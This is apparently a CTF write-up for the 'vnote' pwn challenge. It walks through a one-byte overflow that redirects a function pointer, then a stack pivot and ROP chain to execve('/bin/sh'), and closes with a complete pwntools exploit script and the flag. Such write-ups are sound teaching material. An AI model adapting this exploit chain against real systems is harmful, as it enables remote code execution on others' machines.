









# Vnote

## Problem

### Description

> cpP enjoyer&#x20;
>
> _nc 103.181.183.216 17002_

***

## Proof of Concept

### discovering foothold

given compiled binary, we'll check its basic executable information and security perimeter


```bash
└─$ file vnote                                 
vnote: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=34f6eaa546749be4ccd3028456ae7dcc4ece2bf3, for GNU/Linux 3.2.0, not stripped

└─$ checksec --file=vnote 
RELRO           STACK CANARY      NX            PIE 
Partial RELRO   Canary found      NX enabled    No PIE 
```


next, after interacting with the binary a little bit, I immediately  jump into ghidra.

<figure><figcaption><p>decompiled main</p></figcaption></figure>

judging from the syntax, I suspect this binary is written with C++. The decompiled main suggest what the binary does on a normal routine, prompting the user with a single input. Let's take a look how the program is accepting our input

<figure><figcaption><p>decompiled get_input()</p></figcaption></figure>

aha!, here lies a single byte overflow, this happens because of the incorrect check of `size < 0`. But, what can we do with this? let's break on <mark style="color:green;">**get\_input()**</mark> before it returns on a normal execution.&#x20;

<figure><figcaption><p>stack on a normal execution</p></figcaption></figure>

as we can observe from the stack, beneath our input exist bunch of instruction pointers. This has been made easy to notice since PIE is not enabled thankfully. Now let's us observe the stack if malicious input was given instead.

<figure><figcaption><p>stack on malicious input</p></figcaption></figure>

notice the one byte overflow?

> before:
>
> <mark style="color:orange;">0x7fffffffdc60</mark> -> 0x4c3690 (\_\_preinit\_array\_start+32) -> <mark style="color:red;">0x401948 (Note::print\_public())</mark>
>
> after:
>
> <mark style="color:orange;">0x7fffffffdc60</mark> -> 0x4c3641

since we screamed at the program using bunch of 'A's, the last of byte of that pointer is now overwritten with 0x41 (ascii for A). We can use this to alter the program execution. However since we can only write one byte, our option is quite limited. So where should we return?

### gaining foothold

Let's take a look how <mark style="color:green;">**Note**</mark> is initialized (double click on the constructor function).

<figure><figcaption><p>Note constructor</p></figcaption></figure>

<figure><figcaption><p>function addresses</p></figcaption></figure>

It takes one parameter and set to a variable pointer to a function of <mark style="color:green;">**print\_public()**</mark>. Notice we also discover another function called <mark style="color:green;">**get\_private()**</mark> that's never called on a normal routine. Let's take a look what it does.

<figure><figcaption><p>decompiled get_private()</p></figcaption></figure>

seems like it prompt the user with quite a lot of input size, this is good news since it is probable to buffer overflows. Its taking the object relative address as the destination of its buffer. Specifically the object's structure at index 2 (offset 0x10) for the larger buffer and the object's structure at index one (offset 0x8) for the smaller buffer. We can figure out what these addresses shall be if we were going to call it by taking a look back at the main function.&#x20;


```c
undefined8 input[4];
undefined8 this [4];

Note::Note((Note *)this);
pn = this;
/*
...
*/
pn[1] = &input;
pn[2] = private_buffer;
```


so the <mark style="color:green;">**get\_private()**</mark> will prompt an input of size 0x200 to a <mark style="color:green;">**private\_buffer**</mark> (a global variable), and an input of size 0x60 to input (local variable) thus voila, a buffer overflow and since the address of this function has only one byte difference with the existing one on the stack, this is the perfect candidate.


```python
# ...some code

io = initialize()

payload = b'\x98' * 33
io.sendlineafter(b'note:', payload)
```


<figure><figcaption></figcaption></figure>

and we successfully alter the program execution

### Stack pivoting and ret2execve

Since the program is compiled statically, we have a lot of gadgets at our disposal and it will be our goal to gain remote code execution. However, our buffer won't be large enough to accommodate  our large payload, so we need to do a stack pivoting, essentially we'll move the stack pointer to an area where we can put a larger buffer.

Thankfully, the author has already provided this on <mark style="color:green;">**get\_private()**</mark>. What we'll have to do is to put our ropchain on <mark style="color:green;">**private\_buffer**</mark> and move the stack pointer there. To do this we'll use the <mark style="color:orange;">**pop rsp**</mark> gadget. this works because each the <mark style="color:red;">**rip**</mark> depends on the <mark style="color:orange;">**rsp**</mark> to feed instructions from. and since we alter the <mark style="color:orange;">**rsp**</mark> to our controlled input, the <mark style="color:red;">**rip**</mark> will then be fed those ropchain.


```python
# ...some code

private_buffer = 0x4c9320
syscall = 0x041b236
rdx_rbx = 0x048656b

offset = 72
payload = flat({
    offset: [
        rop.rsp.address,
        private_buffer,
        rop.ret.address
    ]
})

ropchain = flat([
    rop.rdi.address,
    private_buffer + 10 * 8,
    rop.rsi.address,
    0,
    rop.find_gadget(["pop rdx", "pop rbx", "ret"])[0],
    0,
    0,
    rop.rax.address,
    0x3b,
    syscall, # syscall; ret;
    b'/bin/sh\x00',
])

io.sendlineafter(b'note:', ropchain)
io.sendlineafter(b'note:', payload)

io.interactive()
```


<figure><figcaption><p>running full exploit &#x26; getting flag</p></figcaption></figure>

### Flag

_**hacktoday{m1Nt4\_R3k0m3nD4s1\_fL4g\_saM4\_ch4tgPt\_d14\_m4Lah\_b1ngunG\_y4\_Sud4h\_L4h\_1ni\_4ja}**_

***

## Appendix


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './vnote'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host, port = '103.181.183.216', 17002

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x000000000040193f

break *0x4019be
break *0x4019e7
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()
rop = ROP(exe)

private_buffer = 0x4c9320
syscall = 0x041b236
rdx_rbx = 0x048656b

payload = b'\x98' * 33
io.sendlineafter(b'note:', payload)

offset = 72
payload = flat({
    offset: [
        rop.rsp.address,
        private_buffer,
        rop.ret.address
    ]
})

ropchain = flat([
    rop.rdi.address,
    private_buffer + 10 * 8,
    rop.rsi.address,
    0,
    rop.find_gadget(["pop rdx", "pop rbx", "ret"])[0],
    0,
    0,
    rop.rax.address,
    0x3b,
    syscall, # syscall; ret;
    b'/bin/sh\x00',
])

io.sendlineafter(b'note:', ropchain)
io.sendlineafter(b'note:', payload)

io.interactive()
```

